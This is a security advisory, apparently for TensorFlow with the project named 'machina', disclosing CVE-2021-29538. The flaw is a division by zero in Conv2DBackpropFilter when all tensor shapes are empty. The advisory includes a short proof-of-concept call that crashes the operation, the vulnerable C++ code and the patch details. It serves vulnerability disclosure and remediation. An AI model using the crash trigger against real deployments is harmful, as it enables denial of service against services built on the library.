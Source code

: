 ## TFSA-2021-027: Division by zero in `Conv2DBackpropFilter`

### CVE Number
CVE-2021-29538

### Impact
An attacker can cause a division by zero to occur in `Conv2DBackpropFilter`:

```python
import machina as tf

input_tensor = tf.constant([], shape=[0, 0, 0, 0], dtype=tf.float32)
filter_sizes = tf.constant([0, 0, 0, 0], shape=[4], dtype=tf.int32)
out_backprop = tf.constant([], shape=[0, 0, 0, 0], dtype=tf.float32)

tf.raw_ops.Conv2DBackpropFilter(
  input=input_tensor,
  filter_sizes=filter_sizes,
  out_backprop=out_backprop,
  strides=[1, 1, 1, 1],
  use_cudnn_on_gpu=False,
  padding='SAME',
  explicit_paddings=[],
  data_format='NHWC',
  dilations=[1, 1, 1, 1]
)
```

This is because the
[implementation](https://github.com/machina/machina/blob/1b0296c3b8dd9bd948f924aa8cd62f87dbb7c3da/machina/core/kernels/conv_grad_filter_ops.cc#L513-L522)
computes a divisor based on user provided data (i.e., the shape of the tensors
given as arguments):

```cc
const size_t size_A = output_image_size * filter_total_size;
const size_t size_B = output_image_size * dims.out_depth;
const size_t size_C = filter_total_size * dims.out_depth;
const size_t work_unit_size = size_A + size_B + size_C;
const size_t shard_size = (target_working_set_size + work_unit_size - 1) / work_unit_size;
```

If all shapes are empty then `work_unit_size` is 0. Since there is no check for
this case before division, this results in a runtime exception, with potential
to be abused for a denial of service.

### Patches
We have patched the issue in GitHub commit
[c570e2ecfc822941335ad48f6e10df4e21f11c96](https://github.com/machina/machina/commit/c570e2ecfc822941335ad48f6e10df4e21f11c96).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
